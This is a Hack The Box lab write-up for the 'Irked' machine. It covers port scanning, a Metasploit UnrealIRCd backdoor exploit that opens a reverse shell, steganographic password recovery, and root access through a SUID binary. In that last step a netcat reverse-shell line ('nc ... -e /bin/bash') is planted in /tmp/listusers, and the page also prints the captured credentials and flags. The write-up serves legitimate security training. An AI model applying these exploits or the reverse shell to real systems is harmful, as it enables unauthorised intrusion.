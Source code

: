 ```yaml
---
layout: menu
title: "HTB Irked"
description: "10.10.10.117 | 20 pts"
header-img: "boxes/screenshots/20_irked/irked.png"
tags: [hackthebox, htb, boot2root, writeup, write-up, linux, ircd, irc, steganogpraphy, steg]
---
```


# <span style="color:red">HTB Irked (10.10.10.117) MACHINE WRITE-UP</span>

---

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : PRIVILEGE ESCALATION (djmardov -&gt; root)](#part-5--privilege-escalation-djmardov---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.117

  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  111/tcp   open  rpcbind
  6697/tcp  open  ircs-u
  8000/tcp  open  http-alt
  8067/tcp  open  infi-async
  46040/tcp open  unknown
  65534/tcp open  unknown

$ nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117

  PORT      STATE  SERVICE     VERSION
  22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  | ssh-hostkey: 
  |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
  |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
  |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
  |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
  80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.10 (Debian)
  |_http-title: Site doesn't have a title (text/html).
  111/tcp   open   rpcbind     2-4 (RPC #100000)
  | rpcinfo: 
  |   program version   port/proto  service
  |   100000  2,3,4        111/tcp  rpcbind
  |   100000  2,3,4        111/udp  rpcbind
  |   100024  1          35800/tcp  status
  |_  100024  1          56850/udp  status
  6697/tcp  open   ircs-u?
  |_irc-info: Unable to open connection
  8000/tcp  closed http-alt
  8067/tcp  open   infi-async?
  |_irc-info: Unable to open connection
  46040/tcp closed unknown
  65534/tcp open   unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.117`__: 

  ![Landing Page](./screenshots/20_irked/80_irked.png)

- Page Source:
  ```html
  <img src=irked.jpg>
  <br>
  <b><center>IRC is almost working!</b></center>
  ```
  __Notes__:
  - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
  - The pages also only contains an image (__*irked.jpg*__)
  - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

---

## PART 3 : EXPLOITATION

1. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     $ msfconsole
     
     $ use exploit/unix/irc/unreal_ircd_3281_backdoor

     $ show options

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target address range or CIDR identifier
       RPORT   6667             yes       The target port (TCP)

     $ set RHOSTS 10.10.10.117
     $ set RPORT 6697
     $ run

       [*] Started reverse TCP double handler on 10.10.15.122:4444 
       [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
           :irked.htb NOTICE AUTH :*** Looking up your hostname...
       [*] 10.10.10.117:6697 - Sending backdoor command...
       [*] Accepted the first client connection...
       [*] Accepted the second client connection...
       [*] Command: echo 4JezGWGL0WskDMqt;
       [*] Writing to socket A
       [*] Writing to socket B
       [*] Reading from sockets...
       [*] Reading from socket A
       [*] A: "4JezGWGL0WskDMqt\r\n"
       [*] Matching...
       [*] B is input...
       [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...

     ```
   - While inside the reverse shell:
     ```console
     $ id

       uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     $ python -c 'import pty; pty.spawn("/bin/bash")'

     $ cat /etc/passwd | grep bash

       root:x:0:0:root:/root:/bin/bash
       djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     $ cd /home/djmardov
     $ cd Documents
     $ ls -lah

       drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
       drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
       -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
       -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     $ cat .backup

       Super elite steg backup pw
       UPupDOWNdownLRlrBAbaSSss
     ```

   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

2. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/20_irked/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```

---

## PART 4 : GENERATE USER SHELL

- __`ssh`__:
  ```console
  $ ssh -l djmardov 10.10.10.117
  $ djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG

  $ cat ~/Documents/user.txt

    4a66a78b12dc0e661a59d3f5c0267a8e

  ```

---

## PART 5 : PRIVILEGE ESCALATION (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   $ find / -uid 0 -perm -4000 -type f 2>/dev/null

     ...omitted...
     /usr/bin/viewuser
     ...omitted...

   $ /usr/bin/viewuser
   
     This application is being devleoped to set and test user permissions
     It is still being actively developed
     (unknown) :0           2019-04-27 13:17 (:0)
     djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
     sh: 1: /tmp/listusers: not found

   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
>
2. Create payload:
   ```console
   $ echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
3. Establish __root__ shell:
   1. Local terminal:
      ```console
      $ nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      $ /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      # id 

        uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      # find / -name root.txt

        /root/root.txt

      # cat /root/root.txt

        8d8e9e8be64654b6dccc3bff4522daf3
      ```
